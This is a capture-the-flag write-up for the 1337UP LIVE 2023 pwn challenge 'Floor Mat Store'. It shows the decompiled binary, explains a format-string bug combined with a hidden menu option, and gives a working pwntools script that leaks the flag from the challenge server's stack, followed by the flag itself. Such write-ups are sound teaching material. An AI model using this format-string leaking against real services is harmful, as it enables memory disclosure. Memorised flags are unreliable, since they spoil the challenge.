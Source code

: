 # 1337UP LIVE CTF 2023

## Floor Mat Store

> Welcome to the Floor Mat store! It's kind of like heaven.. for mats
> 
> Author: CryptoCat
> 
> [`floormats`](floormats)

Tags: _pwn_

## Solution
For this challenge we get a binary we need to reverse first, to see how it can be exploited. `Ghidra` gives us the following code.

```c
undefined8 main(void)
{
  int iVar1;
  long in_FS_OFFSET;
  int local_128;
  int local_124;
  __gid_t local_120;
  int local_11c;
  char *local_118;
  FILE *local_110;
  char *local_108 [4];
  char *local_e8;
  char *local_e0;
  char local_d8 [64];
  char local_98 [136];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  local_108[0] = "1. Cozy Carpet Mat - $10";
  local_108[1] = "2. Wooden Plank Mat - $15";
  local_108[2] = "3. Fuzzy Shag Mat - $20";
  local_108[3] = "4. Rubberized Mat - $12";
  local_e8 = "5. Luxury Velvet Mat - $25";
  local_e0 = "6. Mysterious Flag Mat - $1337";
  local_118 = local_d8;
  local_120 = getegid();
  setresgid(local_120,local_120,local_120);
  local_110 = fopen("flag.txt","r");
  if (local_110 == (FILE *)0x0) {
    puts("You have a flag.txt, right??");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts(
      "Welcome to the Floor Mat store! It\'s kind of like heaven.. for mats.\n\nPlease choose from o ur currently available floor mats\n\nNote: Out of stock items have been temporarily delisted\n "
      );
  puts("Please select a floor mat:\n");
  for (local_124 = 0; local_124 < 5; local_124 = local_124 + 1) {
    puts(local_108[local_124]);
  }
  puts("\nEnter your choice:");
  __isoc99_scanf(&DAT_001021b6,&local_128);
  if ((0 < local_128) && (local_128 < 7)) {
    local_11c = local_128 + -1;
    do {
      iVar1 = getchar();
    } while (iVar1 != 10);
    if (local_11c == 5) {
      fgets(local_d8,0x40,local_110);
    }
    puts("\nPlease enter your shipping address:");
    fgets(local_98,0x80,stdin);
    puts("\nYour floor mat will be shipped to:\n");
    printf(local_98);
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    return 0;
  }
  puts("Invalid choice!\n");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

There is an obvious `format string` issue we can use to leak data from the stack. Also there is a `hidden` menu option that copies the flag content to the stack. By combining this we can leak the flag.

```python
from pwn import *

for i in range(18, 30):
    #p = process("floormats")
    p = remote("floormats.ctf.intigriti.io", 1337)
    p.sendlineafter(b"floor mat:\n", b"6")
    x = f"%{i}$p"
    print(x, end="")
    p.sendlineafter(b"shipping address:", x.encode())
    p.recvuntil(b"shipped to:\n\n")
    data = p.recvall()[:-1]
    try:
        print(bytes.fromhex(data[2:].decode())[::-1])
    except:
        print("FAIL", data)
    p.close()

```

Flag `INTIGRITI{50_7h475_why_7h3y_w4rn_4b0u7_pr1n7f}`